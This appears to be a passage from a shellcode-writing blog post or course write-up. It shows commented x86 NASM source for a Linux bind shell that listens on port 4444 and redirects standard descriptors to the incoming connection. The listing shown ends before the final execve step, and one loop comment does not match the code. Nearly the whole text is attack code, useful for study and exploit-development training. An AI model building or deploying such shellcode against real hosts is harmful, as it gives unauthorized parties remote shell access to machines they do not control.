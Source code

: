### bindshell.nasm
{% highlight nasm %}
global _start

section .text
_start:
    ; sock_fd = socket(AF_INET, SOCK_STREAM, 0);
    xor ebx, ebx    ; Clear EBX
    mul ebx         ; Multiply EAX * 0, also clears EDX
    mov al, 0x66    ; SOCKETCALL syscall
    mov edi, eax    ; Save syscall for future use

    inc ebx         ; SYS_SOCKET (1)

    push edx        ; SYS_SOCKET arg: PROTOCOL
    push 0x1        ; SYS_SOCKET arg: SOCK_STREAM
    push 0x2        ; SYS_SOCKET arg: AF_INET
    mov ecx, esp    ; Point ECX to syscall args

    int 0x80        ; Execute syscall
    xchg esi, eax   ; Save syscall return value

    ; bind(sock_fd, &{sin_family, sin_port, sin_addr}, sizeof(s_addr));
    mov eax, edi    ; SOCKETCALL
    inc ebx         ; SYS_BIND (2)

    push edx        ; sin_addr = INADDR_ANY (0)
    mov cx, 0x5C11  ; sin_port = 4444
    shl ecx, 0x10   ; ECX -> 0x5C110000
    or cl, 0x2      ; ECX -> 0x5C110002
    push ecx        ; Push sockaddr struct
    mov ecx, esp    ; Move pointer to struct sockaddr into ECX

    push 0x10       ; sockaddr_in length: short + unsigned short + unsigned long + char[8] = 16 bytes
    push ecx        ; Pointer to new sockaddr_in struct
    push esi        ; Old socket FD
    mov ecx, esp    ; Move argument pointer to ECX

    int 0x80        ; Execute syscall

    ; listen(sock_fd, 1);
    mov eax, edi    ; SOCKETCALL
    shl ebx, 0x1    ; SYS_LISTEN (2 -> 4)

    push byte 0x1   ; Queue size
    push esi        ; sock_fd pointer
    mov ecx, esp    ; Args -> ECX

    int 0x80        ; Execute syscall

    ; bind_fd = accept(sock_fd, &{sin_family, sin_port, sin_addr}, sizeof(d_addr));
    mov eax, edi    ; SOCKETCALL
    inc ebx         ; SYS_ACCEPT (5)

    push dword edx  ; d_addr, sizeof(d_addr) = NULL
    push esi        ; sock_fd pointer
    mov ecx, esp    ; SYS_ACCEPT args -> ECX

    int 0x80        ; Execute syscall

    ; for (int i = 2; i >= 0; i--) dup2(bind_fd, i);
    xchg eax, ebx   ; SYS_ACCEPT returns new sock_fd in EAX; move to EBX
    xor ecx, ecx    ; Clear ECX

dup_loop:
    mov al, 0x3f    ; dup2 syscall
    int 0x80        ; Execute syscall
    inc ecx
    cmp cl, 0x3
    jle dup_loop

[^1]: https://www.cs.cmu.edu/~srini/15-441/S10/lectures/r01-sockets.pdf
[^2]: https://www.gta.ufrj.br/ensino/eel878/sockets/sockaddr_inman.html
[^3]: http://shell-storm.org/shellcode/files/shellcode-837.php